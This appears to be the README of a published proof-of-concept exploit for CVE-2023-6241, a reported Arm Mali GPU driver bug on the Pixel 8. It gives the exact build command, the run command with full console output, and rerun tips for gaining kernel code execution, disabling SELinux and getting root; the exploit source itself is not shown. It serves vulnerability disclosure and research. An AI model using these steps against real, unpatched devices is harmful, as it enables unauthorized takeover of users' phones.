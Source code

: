 ## Exploit for CVE-2023-6241

The write up can be found [here](https://github.blog/2024-03-18-gaining-kernel-code-execution-on-an-mte-enabled-pixel-8). This is a bug in the Arm Mali kernel driver that I reported in November 2023. The bug can be used to gain arbitrary kernel code execution from the untrusted app domain, which is then used to disable SELinux and gain root.

The exploit is tested on the Google Pixel 8 with the Novmember 2023 patch (`UD1A.231105.004`). It needs to be compiled with OpenCL and linked with the OpenCL library `libGLES_mali.so`. The library can be found in a Pixel 8 device in `vendor/lib64/egl/libGLES_mali.so` and the OpenCL header files can be found in the KhronosGroup's [OpenCL-headers repository](https://github.com/KhronosGroup/OpenCL-Headers). The specific header that I used was the [v2023.04.17](https://github.com/KhronosGroup/OpenCL-Headers/releases/tag/v2023.04.17) version, although other versions should also work. For reference, I used the following command to compile with clang in ndk-26:

```
android-ndk-r26b/toolchains/llvm/prebuilt/linux-x86_64/bin/aarch64-linux-android34-clang -DSHELL -DCL_TARGET_OPENCL_VERSION=300 -I. -L. mali_jit_csf.c mem_read_write.c mempool_utils.c -lGLES_mali -o mali_jit_csf
```

The exploit needs to be linked to `libGLES_mali.so`. This can be done by setting the `LD_LIBRARY_PATH` to `/vendor/lib64/egl`. The exploit rarely fails and even if it does, it does not normally corrupt or crash the system. So in case it fails, it can be rerun. If successful, it should disable SELinux and gain root.

```
shiba:/data/local/tmp $ LD_LIBRARY_PATH=/vendor/lib64/egl ./mali_jit_csf                                     
mali_fd 3
corrupted_jit_addr 6000001000
kernel success
kernel success
queue kernel
jit_grow addr 6000001000
Size after grow: 22f6
Final grow size: 23c7
keep alive jit_addr 60023d1000
Size after free: 21fd, trim_level 6
writing to gpu_va 6002301000
found reused page 5fffef6000, 0
pgd entry found at index 0 40000899bbc443
overwrite addr : 5ffff00b50 b50
overwrite addr : 5fffb00b50 b50
overwrite addr : 5fff900b50 b50
overwrite addr : 5ffff00714 714
overwrite addr : 5fffb00714 714
overwrite addr : 5fff900714 714
result 50
clean up
```

When running the first time, the exploit sometimes stalled after printing the last `overwrite addr` message. If that happens (stalled for more than 10 seconds, though pausing for a few seconds is normal), then simply kill the exploit and rerun it. It should not stall the second time.

To test it with MTE enabled, follow [these instructions](https://outflux.net/blog/archives/2023/10/26/enable-mte-on-pixel-8/) to enable kernel MTE.
